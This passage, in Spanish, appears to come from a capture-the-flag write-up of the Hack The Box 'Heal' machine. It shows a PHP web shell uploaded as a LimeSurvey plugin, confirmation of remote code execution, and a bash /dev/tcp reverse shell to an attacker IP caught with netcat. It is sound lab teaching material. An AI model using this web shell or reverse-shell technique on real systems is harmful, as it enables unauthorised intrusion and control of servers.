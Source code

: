 ```bash 
301      GET        7l       12w      178c http://take-survey.heal.htb/locale => http://take-survey.heal.htb/locale/
``` 

Parece que podemo ir a `/admin`, las credenciales nos sirven, en el sitio parece no haber CVE's que funcionen en esta versiòn. 
Vemos que tenemos la opciòn de subir plugins, asì que subimos un código en php

```php 
<?php system($_REQUEST['cmd']); ?>
```

Si lo intentamos subir nos da un error, nos pide un fichero `config.xml`, [aqui](https://gitlab.com/SondagesPro/SampleAndDemo/ExampleSettings/-/blob/master/config.xml?ref_type=heads) se encuentra un ejemplo. 

Añadimos ambos a un zip y lo subimos. 

```bash 
┌──(kali㉿kali)-[~/labs-hack/heal]
└─$ zip uwu.zip owo.php 
  adding: owo.php (stored 0%)

┌──(kali㉿kali)-[~/labs-hack/heal]
└─$ zip uwu.zip config.xml 
  adding: config.xml (deflated 53%)
```

Navegamos hasta el nombre que se le dió a nuestro pluggin: `/upload/plugins/ExampleSettings/`, sabemos que es esta ruta porque es dode se guardan según la [documentación](https://github.com/LimeSurvey/LimeSurvey) de Limesurvey en GitHub. 

Confirmamos la RCE: 

![](../assets/images/machine-heal/7.png)

Nos lanzamos una shell a nuestra máquina de atacante con `owo.php?cmd=bash -i 'bash -i >%26 /dev/tcp/10.10.14.76/4443 0>%261'` : 

```bash
┌──(kali㉿kali)-[~/labs-hack]
└─$ rlwrap nc -lvnp 4443
listening on [any] 4443 ...
connect to [10.10.14.76] from (UNKNOWN) [10.10.11.46] 34824
bash: cannot set terminal process group (1113): Inappropriate ioctl for device
bash: no job control in this shell
www-data@heal:~/limesurvey/upload/plugins/ExampleSettings$ script /dev/null -c bash 
</plugins/ExampleSettings$ script /dev/null -c bash        
Script started, output log file is '/dev/null'.
www-data@heal:~/limesurvey/upload/plugins/ExampleSettings$ 
zsh: suspended  rlwrap nc -lvnp 4443
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack]
└─$ stty raw -echo ; fg
```